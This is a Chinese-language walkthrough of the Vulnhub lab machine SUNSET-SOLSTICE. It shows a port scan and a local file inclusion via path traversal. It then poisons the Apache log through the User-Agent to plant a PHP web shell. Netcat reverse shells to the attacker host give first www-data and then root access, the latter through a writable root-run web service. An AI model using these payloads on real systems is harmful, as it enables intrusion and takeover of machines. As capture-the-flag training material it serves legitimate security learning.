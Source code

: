 ```yaml
---

title: Vulnhub 499 SUNSET-SOLSTICE
date: 2020-06-26 
---
```


考点：文件包含、权限继承

靶机链接：<https://www.vulnhub.com/entry/sunset-solstice,499/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SOLSTICE   | 10.0.2.4  |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.4
$ nmap -v -A -p- $rip
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice Hello localhost [10.0.2.15], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
62524/tcp open  tcpwrapped
Service Info: Host: solstice; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 1s
| nbstat: NetBIOS name: SOLSTICE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SOLSTICE<00>         Flags: <unique><active>
|   SOLSTICE<03>         Flags: <unique><active>
|   SOLSTICE<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: \x00
|   NetBIOS computer name: SOLSTICE\x00
|   Workgroup: WORKGROUP\x00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

### WEB测试

发现web端口，优先进行web漏洞测试

- 80端口没发现啥问题，纯粹是个兔子洞，那个`phpIPAM`最后进系统一看，各种空文件
- 8593端口存在本地文件包含漏洞，应该是这里搞突破了

```http
http://10.0.2.4:8593/index.php?book=/../../../../../etc/passwd
```

### 漏洞发现

于是想包含apache2日志或者auth.log

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/auth.log>发现包含失败，应该是权限不够。

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log发现日志未写入，测试80和54787> web应用，访问

```http
http://10.0.2.4:80/p80
http://10.0.2.4:54787/p54787
```

发现对<http://10.0.2.4:80>的访问会写入`/var/log/apache2/access.log`日志。

## 获得权限

### 本地测试

本地启动`/etc/init.d/apache2 start`

测试 将一句话通过user-agent写入apache2日志文件

```bash
curl http://10.0.2.15 -A '<?php system($_GET[123]);?>'
```

![1](https://www.vulnhub.cn/walkthrough/499/1.webp)

![2](https://www.vulnhub.cn/walkthrough/499/2.webp)

写入成功

### 靶机测试

#### 思路一

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```

浏览器访问

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log&123=nc 10.0.2.15 444 -e /bin/bash
```

获得反弹shell，权限是`www-data`

![4](https://www.vulnhub.cn/walkthrough/499/4.webp)

尝试写入当前目录，发现可写，果断wget一句话连antsword。

![5](https://www.vulnhub.cn/walkthrough/499/5.webp)

这里第一次连接失败，断掉nc连接成功

![6](https://www.vulnhub.cn/walkthrough/499/6.webp)

#### 靶机测试-思路二

也可以直接写antsword用的`<?php eval($_POST[123]); ?>`

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```

antsword连上

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log
```

 密码 `123`

#### 靶机测试-思路三

还可以使用burpsuite提交`<?php eval($_POST['cmd']); ?>`burpsuite可避免转义

## 提权

一番查看进程，发现有个root权限启动的web服务在57端口

![7](https://www.vulnhub.cn/walkthrough/499/7.webp)

刚好该目录index.php文件可以写入，果断写入nc反弹

```php
system('nc 10.0.2.15 555 -e /bin/sh');
```

![9](https://www.vulnhub.cn/walkthrough/499/9.webp)

执行curl获得root

```bash
curl http://127.0.0.1:57
```

![10](https://www.vulnhub.cn/walkthrough/499/10.webp)
